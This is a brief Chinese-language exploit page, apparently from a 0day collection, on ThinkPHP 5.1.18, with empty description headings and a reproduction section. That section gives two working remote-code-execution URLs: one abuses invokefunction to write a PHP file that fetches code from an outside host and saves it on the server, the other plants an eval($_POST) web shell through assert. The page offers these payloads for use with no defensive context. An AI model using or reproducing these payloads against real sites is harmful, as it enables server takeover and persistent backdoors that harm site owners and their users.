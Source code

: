 # Thinkphp 5.1.18

> 原文：[http://book.iwonder.run/0day/Thinkphp/10.html](http://book.iwonder.run/0day/Thinkphp/10.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、常规 poc

```
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?> 
```

### 2、所有目录都无写入权限,base64 函数被拦截

```
 http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```

